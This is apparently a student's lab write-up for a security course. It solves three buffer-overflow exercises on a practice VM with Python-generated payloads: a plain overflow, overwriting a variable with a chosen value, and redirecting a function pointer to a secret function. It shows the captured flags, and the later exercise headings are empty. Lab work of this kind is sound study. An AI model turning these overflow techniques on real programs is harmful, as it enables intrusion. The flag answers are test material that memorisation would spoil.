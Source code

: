 ```html
<div style="page-break-after: always;"></div>
```

###### Exercise 1

> [!exercise]+ Exercise 1
> Go to /home/q1/. Exploit the program to get the secret.
> 
> **Answer:**
To exploit the program and obtain the secret, we target the buffer overflow vulnerability caused by `strcpy`. The `buffer` array has 1024 bytes, and `changeme` is immediately after it in memory. To overwrite `changeme`, our input needs to exceed the `buffer` size and alter `changeme`'s value from 0.
> 
> By supplying an input of 1028 characters, we overflow `buffer` and change at least one byte of `changeme`, triggering the conditional to reveal the secret.
>```
>student@hacklabvm:/home/q1$ ./run_me $(python -c 'print("A"*1025)')
 >_________________________________________
>/ csf2024s1_{flockwise-overdiversificatio \
>\ n-muriciform}                           /
> -----------------------------------------
>  \
>   \
>       __     
>      UooU\.'@@@@@@`.
>      \__/(@@@@@@@@@@)
>           (@@@@@@@@)
>           `YY~~~~YY'
>            ||    ||
>```

<div style="page-break-after: always;"></div>

###### Exercise 2

> [!exercise]+ Exercise 2
> Go to/ home/q2/. Exploit the program to get the secret.
> 
> **Answer:**
> This follows the same logic as exercise 1, but instead of overwriting `changeme` with anything, we need to change it to `0xabcdabcd`. Similar to before, we fill `buffer` with 1024 bytes of garbage, and now we must append `0xabcdabcd` in little endian format, i.e. `\xcd\xab\xcd\xab`.
> 
> Since we are limited to `python3`, the command is also a bit different due to the way strings are encoded.
>```
>student@hacklabvm:/home/q2$ ./run_me $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*1024 + b"\xcd\xab\xcd\xab")')
> _________________________________________
>/ csf2024s1_{salvifics-cohesionless-nondi \
>\ lation}                                 /
> -----------------------------------------
>  \
>   \
>       __     
>      UooU\.'@@@@@@`.
>      \__/(@@@@@@@@@@)
>           (@@@@@@@@)
>           `YY~~~~YY'
>            ||    ||
>```
<div style="page-break-after: always;"></div>

###### Exercise 3

> [!exercise] Exercise 3
> Go to /home/q3/. Exploit the program to get the secret.
> 
> **Answer:**
> This one is very similar to question 2. All we need to do is overwrite the unsigned int with the address of the `secret` function. We attain this by opening the binary inside `gdp` and printing the address.
> 
> ```
> (gdb) print secret
> $1 = {void ()} 0x565561ed \<secret>
> ```
> Now that we have the address, we convert it to little endian format and place it inside our payload (using the same method as question 2)
> 
> ```
> student@hacklabvm:/home/q3$ ./run_me $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*1024 + b"\xed\x61\x55\x56")')
> Jumping to function at 0x565561ed!!
>  _________________________________________
> / csf2024s1_{hiddenly-avitaminoses-diasta \
> \ lsis}                                   /
>  -----------------------------------------
>   \
>    \
>        __     
>       UooU\.'@@@@@@`.
>       \__/(@@@@@@@@@@)
>            (@@@@@@@@)
>            `YY~~~~YY'
>             ||    ||
> ```

<div style="page-break-after: always;"></div>

###### Exercise 4

<div style="page-break-after: always;"></div>

###### Exercise 5

<div style="page-break-after: always;"></div>

###### Exercise 6



